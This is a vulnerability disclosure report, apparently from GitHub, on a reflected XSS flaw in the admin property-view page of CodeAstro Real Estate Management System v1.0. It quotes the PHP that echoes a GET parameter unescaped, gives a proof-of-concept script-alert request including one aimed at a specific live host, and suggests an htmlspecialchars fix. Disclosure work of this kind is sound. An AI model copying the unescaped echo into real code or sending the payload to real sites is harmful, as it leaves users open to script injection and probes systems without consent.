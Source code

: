 # XSS in CodeAstro Real Estate Management System v1.0 of file /propertyview.php

**vender**:

- CodeAstro Real Estate Management System
- [CodeAstro - Home For All Free Source Codes](https://codeastro.com/)

**SoftLink**:

- https://codeastro.com/real-estate-management-system-in-php-with-source-code/

**Vulnerable File**

- /admin/propertyview.php

**Version**

- V1.0

### POC 

/admin/propertyview.php

Reflected XSS Vulnerability

**Location:**
Lines 81–84:

````php path=admin/propertyview.php mode=EXCERPT
<?php 
if(isset($_GET['msg']))	
    echo $_GET['msg'];	
?>
````

**Description:**
The GET parameter `msg` is echoed directly into the page without any filtering or escaping, resulting in a severe reflected XSS vulnerability.

**HTTP request to trigger the vulnerability:**

```http
GET /admin/propertyview.php?msg=<script>alert('Admin XSS')</script> HTTP/1.1
Host: target.com
Cookie: PHPSESSID=admin_session_id
```

---

## Remediation

1. **XSS Fix:** Escape the output with `htmlspecialchars($_GET['msg'], ENT_QUOTES, 'UTF-8')`.

```
http://www.realestate1.top/admin/propertyview.php?msg=%3Cscript%3Ealert(%27Admin%20XSS%27)%3C/script%3E 
```

![image-20250817163215125](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508171632288.png)